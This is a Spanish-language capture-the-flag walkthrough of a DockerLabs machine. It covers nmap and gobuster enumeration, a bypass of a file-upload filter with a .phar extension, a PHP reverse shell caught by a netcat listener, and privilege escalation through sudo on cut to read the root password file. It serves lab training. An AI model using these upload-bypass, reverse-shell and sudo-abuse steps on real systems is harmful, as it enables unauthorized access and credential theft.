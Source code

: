 # Dockerlabs
![dockerlabs](https://github.com/TBrux/DOCKERLABS/assets/168732212/2763751a-27cd-400b-af47-ce08eac22341)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```
Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Dockerlabs
```
Utilizamos **gobuster** para hacer fuzzing y ver si encontramos algo que nos pueda ser útil.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
```
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

## Explotación.

En la página principal no encontramos nada relevante, pero si vemos que hemos encontrado un página **machine.php** que es interesante.
![uploadfile](https://github.com/TBrux/DOCKERLABS/assets/168732212/ff1b1175-d44c-4f6b-a996-333b763e137c)

Intentamos subir un archivo **.php** pero está restingido a solo archivos **.zip**.
Si buscamos en [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload), encontramos diferentes extensiones para hacer un **bypass** y poder ejecutar código php.
```
    PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
```
En este caso, la extensión que nos va a funcionar es **.phar**, así que subiremos una reverse shell en un archivo php, en mi caso he utilizado este de [GITHUB](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) de pentestmonkey.

![reverseshell](https://github.com/TBrux/DOCKERLABS/assets/168732212/479d4098-eee7-493f-813d-68433fa2ebde)

Una vez subido, cuando hemos hecho fuzzing hemos encontrado un directorio llamado **/uploads**, vamos a ese directorio desde el navegador y ahí tenemos nuestra revershell subida.

![uploads](https://github.com/TBrux/DOCKERLABS/assets/168732212/8b7728a5-9405-4a06-b8e4-cb63c4cdb44f)

Ahora nos ponemos en escucha en el puerto configurado en nuestro archivo php y lo ejecutamos.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38426
Linux fce2bf34762f 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 x86_64 x86_64 GNU/Linux
 12:49:50 up  2:01,  0 user,  load average: 0.02, 0.28, 0.65
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
Hacemos un tratamiento de la tty.
```bash
script /dev/null -c bash
```
CTRL + Z
```bash
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Escalada de privilegios.
En la escalada de privilegios buscamos archivos que podamos utilizar con privilegios de root u otro usuario con más privilegios.
```
www-data@fce2bf34762f:/$ sudo -l
Matching Defaults entries for www-data on fce2bf34762f:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on fce2bf34762f:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
www-data@fce2bf34762f:/$
```
En este caso vamo a utilizar **/usr/bin/cut**, si vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/cut/), podemos ver como utilizar este binario para leer un archivo txt que encontramos en el directorio **/opt**.
```
www-data@fce2bf34762f:/$ cd /opt
www-data@fce2bf34762f:/opt$ sudo /usr/bin/cut -d "" -f1 "/root/clave.txt"
dockerlabsmolamogollon123
www-data@fce2bf34762f:/opt$ 
```
Ahora como parece que tenemos la clave de **root**, probamos a cambiar al usuario **root** y lo tenemos.
```bash
su root
```
```
www-data@fce2bf34762f:/opt$ su root
Password: 
root@fce2bf34762f:/opt# whoami
root
root@fce2bf34762f:/opt#
```
